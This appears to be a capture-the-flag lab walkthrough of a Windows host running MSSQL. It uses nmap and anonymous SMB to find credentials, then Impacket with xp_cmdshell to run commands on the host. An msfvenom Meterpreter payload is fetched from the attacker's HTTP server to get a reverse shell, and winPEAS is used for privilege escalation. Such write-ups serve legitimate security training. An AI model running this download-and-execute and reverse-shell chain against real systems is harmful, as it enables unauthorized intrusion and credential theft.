 **NMAP Scan**

```sh
  nmap -sV -sC -p- 10.129.95.187
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)


 Open Ports

* 135/tcp   open  msrpc        Microsoft Windows RPC
* 139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
* 445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
* 1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.0
* 5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 49664/tcp open  msrpc        Microsoft Windows RPC
* 49665/tcp open  msrpc        Microsoft Windows RPC
* 49666/tcp open  msrpc        Microsoft Windows RPC
* 49667/tcp open  msrpc        Microsoft Windows RPC
* 49668/tcp open  msrpc        Microsoft Windows RPC
* 49669/tcp open  msrpc        Microsoft Windows RPC

**SMB Client** to enumerate the SMB


```sh
  smbclient -N -L \\\\10.129.95.187\\
  ```

List of shares (**-L**)

No password (**-N**)

![image](https://user-images.githubusercontent.com/99097743/169720137-8d8b886d-3eb6-4862-b00f-76014203e263.png)

One of the sharenames does not have the dollar sign (**backups**) --> Non-Administrative share over SMB  


```sh
  smbclient -N //10.129.95.187/backups
  ```

**Impacket** to connect and authenticate to the MSSQL server

Impacket is a collection of Python classes for working with network protocols. Impacket packet includes **mssqlclient.py**  An MSSQL client, supporting SQL and Windows Authentications (hashes too). It also supports TLS. **It can be used in order to establish an authenticated connection to a Microsoft SQL Server**.


https://github.com/SecureAuthCorp/impacket

Impacket Installation Steps:
```sh
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket
supo python3 ./setup.py install
```

The command to connect and authenticate to the MSSQL server:
```sh
mssqlclient.py ARCHETYPE/sql_svc:{Password}@10.129.95.187 -windows-auth
```

- Please make sure to **enable xp_cmdshell** and **reconfigure**
- Need to use **xp_cmdshell** before every comments
  - xp_cmdshell dir --> Shows directory
  - xp_cmdshell "powershell -c cd C:/; pwd" --> First changes dir to C:/ then shows pwd

**Generate Reverse Shell**

We can try **msfvenom** tool to generate the payload for the reverse shell. 

![image](https://user-images.githubusercontent.com/99097743/169732063-60f5b6b4-3640-4197-92d5-8c265a02d9c7.png)

This command is important. It shows all framework payloads
```sh
msfvenom -l payloads 
```

The command to generate the payload
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.26 -f exe -o payload.exe
# Next Open Metasploit Framework
msfconsole
use exploit/multi/handler
show options
set payload windows/meterpreter/reverse_tcp
run
# Now our listener is active to connect to our localhost machine with VPN IP
```
![image](https://user-images.githubusercontent.com/99097743/169736888-315fe72f-fcd1-4e3f-af66-e5839c9659ed.png)

Now we need to transfer the payload (payload.exe) to the target machine

```sh
sudo python3 -m http.server 80
```

Now we go back to SQL server. 
Try to find directory with write and execute permissions 

```sh
xp_cmdshell "powershell -c cd C:/Users/Public"
# Now transfer the file
xp_cmdshell "powershell -c cd C:/Users/Public; wget http://10.10.16.26/payload.exe -o payload.exe"
# Make sure it's is downloaded
xp_cmdshell "powershell -c cd C:/Users/Public; dir"
# Let's execute the payload
xp_cmdshell "powershell -c cd C:/Users/Public; ./payload.exe"
```

Good job! meterpreter shell is activated:

![image](https://user-images.githubusercontent.com/99097743/169738799-2cc02f1e-e5d5-4b89-91a9-37b2860fb99f.png)

```sh
getuid
#user info
```

```sh
upload winPEASx64.exe
# IMPORTANT: For the Meterpreter shell, the local working directory is the location where one started the Metasploit console.
# In this case: $upload winPEASx64.exe: takes the file from /home/kali/htb/archetype to the target machine
```

We can now run winPEAS
```sh
shell
winPEASx64.exe
```
![Screenshot 2022-05-22 231416](https://user-images.githubusercontent.com/99097743/169742009-1a9d012b-6648-44d7-8603-a9be8d8aa013.png)

Now we have access to Administrator username:password! 

We can use evil-winrm 
https://www.kali.org/tools/evil-winrm/


